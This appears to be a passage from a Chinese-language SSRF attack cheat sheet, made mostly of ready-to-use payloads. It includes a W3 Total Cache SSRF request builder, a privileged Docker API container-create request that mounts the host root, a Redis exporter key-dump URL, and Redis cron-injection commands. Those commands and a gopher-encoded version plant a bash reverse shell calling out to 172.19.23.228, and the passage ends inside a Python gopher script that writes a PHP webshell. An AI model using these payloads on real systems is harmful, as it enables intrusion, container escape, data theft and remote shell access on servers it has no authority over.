 	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36
	Content-Length: 124
	Content-Type: application/x-www-form-urlencoded
	Connection: close

	{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://SSRF_CANARY"}
	https://klikki.fi/adv/w3_total_cache.html
	<?php

	$url='http://www.google.com';
	$file=strtr(base64_encode(gzdeflate($url.'#https://ajax.googleapis.com')), '+/=', '-_');
	$file=chop($file,'=');
	$req='/wp-content/plugins/w3-total-cache/pub/minify.php?file='.$file.'.css';
	echo($req);

	?>
  ###### Docker
  	使用以下路径来验证 Docker 的 API 的存在
	/containers/json
	/secrets
	/services
	RCE
	POST /containers/create?name=test HTTP/1.1
	Host: website.com
	Content-Type: application/json
	...

	{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}
  ###### Gitlab Prometheus Redis Exporter
  	默认绑定端口：9121
	影响版本 13.1.1 之前的 Gitlab 实例
	以下端点将允许攻击者转储通过 target 参数提供的 redis 服务器中的所有密钥：
	http://localhost:9121/scrape?target=redis://127.0.0.1:7001&check-keys=*
  ###### Redis
  	计划任务RCE
  	redis-cli -h $1 flushall
	echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
	redis-cli -h $1 config set dir /var/spool/cron/
	redis-cli -h $1 config set dbfilename root
	redis-cli -h $1 save

	gopher
	gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

	上传shell
	https://www.mdeditor.tw/pl/pBy0
```python
#!/usr/bin/env python
# -*-coding:utf-8-*-

import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379" 
shell="\n\n<?php phpinfo();?>\n\n"
filename="shell.php"
path="/var" 
passwd=""

cmd=["flushall",
```